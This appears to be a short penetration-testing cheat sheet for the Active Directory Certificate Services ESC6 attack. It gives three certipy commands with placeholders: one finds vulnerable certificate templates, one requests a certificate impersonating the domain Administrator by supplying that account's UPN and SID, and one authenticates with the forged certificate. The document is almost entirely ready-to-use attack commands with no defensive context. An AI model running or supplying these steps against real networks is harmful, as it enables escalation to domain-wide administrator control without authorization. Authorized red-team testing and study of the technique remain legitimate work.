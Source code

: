 # ADCS ESC6

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```
## 2. Request a cert that impersonates Administrator
```
certipy req -u <username> -p '<password>' -target <CA_FQDN> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC6_TEMPLATE> \
            -upn 'administrator@<DOMAIN>' -sid <ADMIN_SID>
```

## 3. Authenticate
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```
